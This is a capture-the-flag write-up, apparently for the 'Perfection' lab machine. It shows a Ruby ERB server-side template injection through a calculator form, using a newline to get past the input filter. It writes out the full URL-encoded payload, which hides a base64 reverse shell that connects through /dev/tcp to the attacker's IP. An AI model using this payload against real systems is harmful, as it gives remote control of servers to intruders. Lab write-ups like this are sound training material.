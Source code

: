 We know that Perfection webserver uses Ruby 3.0.2. So the webpage must be based on ruby.

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom.

Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot
use the same payload technique we used in Headless because Perfection is based on Ruby.

We know that the develper used a Ruby server template. So we search on Google: server-side template injection ruby

We access the following URL and read the documentation. They have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
They show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, we must know that the Ruby server only interpretates commands URL encoded. So both the payload and the command injection myst be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.
Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

The base64 string decodes into:

bash -i >& /dev/tcp/10.10.14.76/7373 0>&1

`bash -i` starts an interactive bash shell
`>& /dev/tcp/10.10.14.76/7373 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to 10.10.14.76 on port 7373 (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.
